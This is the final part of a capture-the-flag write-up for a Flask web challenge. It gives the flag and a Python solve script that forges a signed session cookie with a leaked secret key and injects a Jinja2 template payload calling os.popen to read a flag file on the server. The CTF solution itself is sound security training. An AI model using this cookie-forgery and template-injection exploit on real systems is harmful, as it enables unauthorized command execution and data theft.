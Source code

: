 And i got flag.

![](https://hackmd.io/_uploads/rkyu1rf32.png)

Flag: `flag{wh4ts_1n_a_n4m3_4nd_wh4ts_in_y0ur_fl4sk}`

### Script

```python
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import requests
from bs4 import BeautifulSoup


class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
	def get_signing_serializer(self, secret_key):
		if not secret_key:
			return None
		signer_kwargs = dict(
			key_derivation=self.key_derivation,
			digest_method=self.digest_method
		)
		return URLSafeTimedSerializer(secret_key, salt=self.salt,
		                              serializer=self.serializer,
		                              signer_kwargs=signer_kwargs)

def decodeFlaskCookie(secret_key, cookieValue):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.loads(cookieValue)

def encodeFlaskCookie(secret_key, cookieDict):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.dumps(cookieDict)

## Refer: https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe

url = "https://nessus-rose.chals.io"

payload = "\{\{config.__class__.__init__.__globals__['os'].popen('cat /home/ctf/flag.txt').read()\}\}"


if __name__=='__main__':
    secret_key = 'SuperDuperSecureSecretKey1234!'
    sessionDict = {u'_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '1', 'name': 'abc90'}
    sessionDict['name'] = payload
    session = encodeFlaskCookie(secret_key, sessionDict)
    
    res = requests.get(url + '/dashboard', headers={ 'Cookie':f'session={session}' })
    
    soup = BeautifulSoup(res.text, "html.parser")
    flag = soup.find("h1", class_="title").get_text()
    
    print("Session: ", session)
    print("Flag: ", flag)

```
